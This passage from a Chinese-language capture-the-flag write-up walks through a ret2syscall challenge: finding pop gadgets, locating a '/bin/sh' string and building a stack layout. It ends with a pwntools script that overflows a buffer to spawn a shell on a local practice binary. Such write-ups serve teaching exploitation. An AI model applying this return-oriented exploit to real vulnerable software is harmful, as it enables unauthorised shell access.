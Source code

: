 只找到ebx和eax的, ecx和edx没找到, 但是可以发现在run函数里有两条指令将ecx和edx置为0

![image-20220316183610534](Self-help_Clown.assets/image-20220316183610534.png)

所以基本不需要我们去管, 执行ret指令的时候, ecx和edx已经为0

然后找程序里是否有"/bin/sh"字符串

![image-20220316183634706](Self-help_Clown.assets/image-20220316183634706.png)

参数都准备齐了, 最后只需要栈布局就行

![image-20220316183645636](Self-help_Clown.assets/image-20220316183645636.png)

执行完pop指令就会ret去执行int 0x80指令

#### Exploit

```python
from pwn import*


o = process('./ret2syscall')
bin_sh = 0x0804a020
pop_ebx_eax_ret = 0x0804843e
int_80 = 0x08048441
payload = 'a'*18 + 'a'*4    # 覆盖变量和ebp
payload += p32(pop_ebx_eax_ret) + p32(bin_sh) + p32(11)
payload += p32(int_80)
o.sendline(payload)
o.interactive()
```
